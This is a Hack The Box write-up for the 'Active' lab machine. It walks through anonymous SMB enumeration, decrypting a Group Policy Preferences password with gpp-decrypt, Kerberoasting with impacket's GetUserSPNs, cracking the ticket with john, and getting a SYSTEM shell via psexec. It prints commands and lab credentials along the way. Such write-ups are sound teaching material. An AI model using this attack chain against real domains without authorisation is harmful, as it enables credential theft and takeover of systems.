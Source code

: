 ```yaml
---
"title": "Hack The Box - Active"
"date": 2020-04-22
"tags": ["windows", "easy", "smb", "kerberos", "psexec"]
"keywords": ["windows", "easy", "smb", "kerberos", "psexec"]
"author": "Ghostbyt3"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```




![73f757b7fcd980b15078520b34f12dd2.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/74a132f10e0d4e0797bf934c20a1a352.png)

We are going to pwn Active from Hack The Box.

Link: [https://www.hackthebox.eu/home/machines/profile/148](https://www.hackthebox.eu/home/machines/profile/148)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49169/tcp open  unknown
49171/tcp open  unknown
49182/tcp open  unknown
```
There are many ports open, let's start with `SMB`

## SMB:

I logged in without the password.
```
root@w0lf:~# smbclient -L 10.10.10.100 
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
Let's check what's inside them.

It seems like I only have access to `Replication`
>smbclient //10.10.10.100/Replication

```
root@w0lf:~# smbclient //10.10.10.100/Replication
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  active.htb                          D        0  Sat Jul 21 16:07:44 2018

		10459647 blocks of size 4096. 4922655 blocks available
```
```
smb: \> cd active.htb
smb: \active.htb\> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  DfsrPrivate                       DHS        0  Sat Jul 21 16:07:44 2018
  Policies                            D        0  Sat Jul 21 16:07:44 2018
  scripts                             D        0  Thu Jul 19 00:18:57 2018

		10459647 blocks of size 4096. 4922655 blocks available
smb: \active.htb\> 
```

I downloaded all the files in the box to my machine using `smbget`.
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbget -R smb://10.10.10.100/Replication/
Password for [root] connecting to //Replication/10.10.10.100: 
Using workgroup WORKGROUP, user root
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml                                                                                                              
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
Downloaded 8.11kB in 33 seconds
```

I found a Interesting file `Groups.xml` in `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\`

That file contains username and an encrypted password. It's a GPP Password.
![sample.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/24959afb5d6e44d98d32b8dcaec80e67.png)


There is a tool in kali `gpp-decrypt` to crack this password.
To know more about what is `cpassword` and `GPP`, you can read [here](https://adsecurity.org/?p=2288).
```
root@w0lf:~/CTF/HTB/Boxes/Active/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups# gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18
```
So the password is `GPPstillStandingStrong2k18`.

## User:

I logged in as `SVC_TGS : GPPstillStandingStrong2k18`
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbclient //10.10.10.100/Users -U "SVC_TGS"
Enter WORKGROUP\SVC_TGS's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 20:09:20 2018
  ..                                 DR        0  Sat Jul 21 20:09:20 2018
  Administrator                       D        0  Mon Jul 16 15:44:21 2018
  All Users                         DHS        0  Tue Jul 14 10:36:44 2009
  Default                           DHR        0  Tue Jul 14 12:08:21 2009
  Default User                      DHS        0  Tue Jul 14 10:36:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:27:55 2009
  Public                             DR        0  Tue Jul 14 10:27:55 2009
  SVC_TGS                             D        0  Sat Jul 21 20:46:32 2018

		10459647 blocks of size 4096. 4922639 blocks available
```

Got User Flag:[br/](br/)
![032652c6512aa3dc46398b218303cf90.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/8b2e0f9b19b241a28faf4d16ab74a337.png)

## Kerberosting:

We know port 88 is open, so we can move on to the kerberosting technique.

### Step 1:

First we need to get administrator Kerberos ticket. For that we can use `GetUserSPNs.py` from [impacket](https://github.com/SecureAuthCorp/impacket).
>GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS

![edacd9dbbaaf65bf047828e5b08df799.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/1be013c86ce44243b7ec30f8b61116d6.png)
Now we can crack this using `john`.

### Step 2:

Cracking the ticket using `john`[br/](br/)
![033afd7f0ad9118331aaa540749471a9.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/797ea49a2e2846c4a38b012202d15e11.png)[br/](br/)
And we got the administrator password : `Ticketmaster1968`

## Getting system Shell:

I can get a shell with PSExec which is also from Impacket.
![f56036627caa1deb8121811a74e7e25e.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/59b5673a954140508edae991d29f4b71.png)

We own the root!!












